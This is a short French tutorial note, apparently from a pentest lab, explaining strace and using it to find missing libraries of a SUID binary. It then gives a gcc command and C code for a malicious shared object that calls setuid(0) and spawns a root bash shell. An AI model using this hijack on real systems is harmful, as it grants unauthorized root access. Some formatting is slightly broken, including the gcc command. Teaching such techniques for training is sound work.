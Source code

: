 Description :

Permet de diagnostiquer les appels systèmes. En gros à chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc l'utilisation d'un grep est judicieuse.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

Là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

Si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc s'il appartient à root, peu importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé libcalc.so dans le dossier /home/user/.config, on peut créer le dossier .config (s'il n'existe pas encore) puis créer notre propre Shared Object à partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/libcalc.so/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

```C
#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.
```
